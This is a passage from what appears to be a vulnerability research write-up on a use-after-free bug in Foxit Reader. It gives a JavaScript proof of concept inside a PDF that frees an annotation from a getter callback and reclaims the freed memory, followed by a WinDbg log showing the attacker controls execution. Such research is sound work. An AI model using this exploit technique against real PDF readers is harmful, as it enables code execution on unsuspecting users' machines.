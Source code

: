 ```JavaScript
// create an array with an element
var arr  = [1];

// make sure we can access the Document object
var that = this;

// setup the getter callback on element 0
Object.defineProperties(arr,{
    "0":{ 
        get: function () {

            // free the annotation
            that.getAnnot(0, "uaf").destroy();

            // reclaim the freed object
            reclaim();
            return 1; 
        }
    }
});

// trigger uaf
a.point = arr;

)>> trailer <</Root 1 0 R>>
```

<p class="cn" markdown="1">Just after the `destroy()` we call `reclaim()` which will allocate 0x10 TypedArray's of size 0x60. We do an iteration of 0x10 just to be extra sure we _catch_ the freed object before its re-use. After re-running the updated poc, sure enough, we replaced the freed object and have execution control.</p>

```
(df8.16b4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=41414141 ebx=00000000 ecx=073419a8 edx=24508001 esi=074a8068 edi=074a4270
eip=014bcfbb esp=0012e3cc ebp=0012e3e4 iopl=0         nv up ei pl nz ac pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210216
FoxitReader!CertFreeCertificateChain+0x150bdb:
014bcfbb 8b5008          mov     edx,dword ptr [eax+8] ds:0023:41414149=????????
0:000> dd @ecx
073419a8  41414141 41414141 41414141 41414141
073419b8  41414141 41414141 41414141 41414141
073419c8  41414141 41414141 41414141 41414141
073419d8  41414141 41414141 41414141 41414141
073419e8  41414141 41414141 41414141 41414141
073419f8  41414141 41414141 41414141 41414141
07341a08  58c64fcb 8c000000 00000001 00000026
07341a18  00000027 003a005a 0072005c 00730065
```


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo